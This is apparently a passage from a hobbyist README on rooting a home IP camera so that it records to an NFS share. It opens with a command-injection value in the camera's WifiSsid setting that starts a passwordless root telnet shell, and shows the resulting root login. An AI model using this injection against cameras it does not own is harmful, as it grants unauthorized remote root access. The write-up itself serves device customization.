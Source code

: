 ```
WifiSsid="SSID"|/usr/sbin/telnetd -l /bin/sh -p 24""
```
Which allowed me to telnet into the camera as root without a password:
```
$ telnet 10.10.10.245 24
Trying 10.10.10.245...
Connected to 10.10.10.245.
Escape character is '^]'.

~ # 
```
##### Customization
The objective with the process above was not to expose vulnerabilities or make it possible to 'hack' cameras, in fact the process above required me to have access to the web interface of the camera using a valid user/password combination (although that can be reset physically on the camera) -- the whole point is to be able to customize the device to my specific needs, specifically to store the video files on my NFS share directly instead of using a microSD card altogether.
With root access, the first thing to do is to secure any remote access to the camera so that it can't be hacked with known username/password combinations, so I went ahead and edited /etc/passwd and /etc/shadow to have username and passwords (hash) only known to me.
Unlike other cameras I have seen in the market this one actually uses a read-write JFFS mount in the device which allows us to just modify and copy files to the built-in memory without having to re-flash the device (nice), otherwise I would have just made a more intricate SSID code injection command to mount the NFS share and then copy/execute anything I need from it (or download a file from a share/url/etc).
Once I verified my new telnet user/pass worked I went ahead and removed the SSID code injection to start the passwordless telnetd (no longer needed).
Now to see if I can mount my NFS share from the camera, so I umounted the microSD card and tried:
```
$ mount -t nfs 10.10.10.2:/mnt/3TB/nvr-PTZ /mnt/mtb/ipc/tmpfs/sd
```
That did not work and instead locked up until it finally gave a timeout error. It seems there are some processes not running on a basic busybox that don't allow it work normally, but searching online I found these alternate options which worked just fine:
```
$ mount -o port=2049,nolock,proto=tcp -t nfs 10.10.10.2:/mnt/3TB/nvr-PTZ /mnt/mtb/ipc/tmpfs/sd
```
With the microSD card still in the camera (though unmounted) I was able to verify the camera could record new video files to the NFS share even over a lame 2.4ghz WIFI, but I noticed that after rebooting the camera without the microSD card and with the NFS share mounted the web interface would say the card is not installed and no new videos would be recorded.
So chances are that some script/process is checking for the SD card so that it can be reported to the web interface and/or to enable/disable recording to the 'sd' directory (otherwise it would fill up the RAM and the camera would run out of memory).
It took some fiddle but after reviewing the flags/files/devices and everything that happens when a microSD card is installed I created a script that would create the same flags and files under /sys/bus/mmc/devices so that the ipc_server process would think there's a valid SD card and write files to the NFS share (When a card is not inserted) -- the script is nfs.sh and it requires the nosd.tgz file under /mnt/mtd/ipc of the camera to work.
With the script completed/tested all that was left was to add a call to /mnt/mtd/ipc/run (a startup script on this camera) to call my nfs.sh script at the end of the startup process.
##### Side note
After it was all said and done, I noticed that the /mnt/mtd/ipc/run script had these lines right at the top:
```
TARGET="/mnt/mtd/ipc"
CONF="$TARGET/conf"
NETINFO=$CONF/config_net.ini
NETPRIV=$CONF/config_priv.ini
PLATFORM=$CONF/config_platform.ini
NETDEV=eth0
WIFIST=0
WIFIPATH="$CONF/wifi.conf"
. $WIFIPATH
```